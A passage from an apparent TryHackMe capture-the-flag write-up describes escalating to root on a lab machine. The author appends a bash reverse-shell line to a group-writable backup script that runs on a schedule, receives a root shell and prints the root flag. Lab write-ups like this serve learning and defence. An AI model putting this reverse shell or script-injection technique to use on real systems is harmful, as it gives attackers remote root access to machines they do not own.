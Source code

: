 we do not have write permissions for this

also not for this

```
ls -al /usr/local/sbin/dev_backup.sh
-rwxr-xr-x 1 root root 64 Jan 17  2021 /usr/local/sbin/dev_backup.sh
```

but we have write permission since we are in admin group

```
ls -al /usr/local/bin/main_backup.sh
-rwxrwxr-x 1 root admin 65 Jan 17  2021 /usr/local/bin/main_backup.sh
```

- added this to the file
```
echo "bash -i >& /dev/tcp/10.17.24.189/9999 0>&1" >> main_backup.sh
```

waited for a min and got root shell

```
root@TEAM:~# id
id
uid=0(root) gid=0(root) groups=0(root),1004(admin)
```
and the flag

```
root@TEAM:~# cat root.txt
cat root.txt
THM{fhqbznavfonq}
```
